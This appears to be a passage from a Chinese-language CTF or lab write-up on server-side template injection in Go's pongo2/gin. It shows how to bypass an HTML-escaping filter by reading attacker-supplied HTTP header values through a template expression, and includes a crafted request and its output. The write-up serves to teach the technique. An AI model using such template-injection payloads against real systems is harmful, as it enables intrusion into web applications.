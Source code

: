 ```go
[Error (where: execution) in <string> | Line 1 Col 9 near 'c'] 'c.Abort' must have exactly 1 or 2 output arguments, the second argument must be of type error
```
报错信息表明 pongo2 会去调用给出的函数，由于我们没有传入参数，因此调用会抛出异常。

## 绕过字符串过滤
可以调用任意函数后，就可以绕过上述`xssWaf := html.EscapeString(name)` 的过滤。因为这里仅仅过滤了 url 参数，一种常见的思路是通过 http 头传入字符串，然后通过获取头信息来得到这个字符串。

在 gin 框架中，http.Request 类保存了 http 请求的相关内容。其中的 Header 存放了 http 头信息。
```go
type Request struct {
	Method string
	URL *url.URL
	ProtoMajor int    // 1
	ProtoMinor int    // 0
	Header Header
	Body io.ReadCloser
	GetBody func() (io.ReadCloser, error)
	ContentLength int64
	TransferEncoding []string
	Close bool
	Host string
	Form url.Values
	PostForm url.Values
	MultipartForm *multipart.Form
	Trailer Header
	RemoteAddr string
	RequestURI string
	TLS *tls.ConnectionState
	Cancel <-chan struct{}
	Response *Response

}
```
而 Context 类的 Request 成员变量就是一个 http.Request 指针。因此可以通过 c 来获取到 http 头信息。
```go
type Context struct {
	Request *http.Request
	Writer  ResponseWriter
}
```
例如我们在 url 中传入`{{c.Request.Header.Aaa}}`,然后传入 http 头：`aaa: injection`
{% raw %}
```http
GET /admin?name={{c.Request.Header.Aaa[0]}} HTTP/1.1
Host: 192.168.137.98
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
aaa: injection
Accept-Language: en-US,en;q=0.9
Cookie: session-name=MTY4NTQxMTc3MXxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXxUX9L8ZRNPWeNBBMT9NDKZ9Jpzx60fZwNoViv5j6YI5Q==
Connection: close
```
{% endraw %}
则可以得到这个字符串。
```go
Hello injection!
```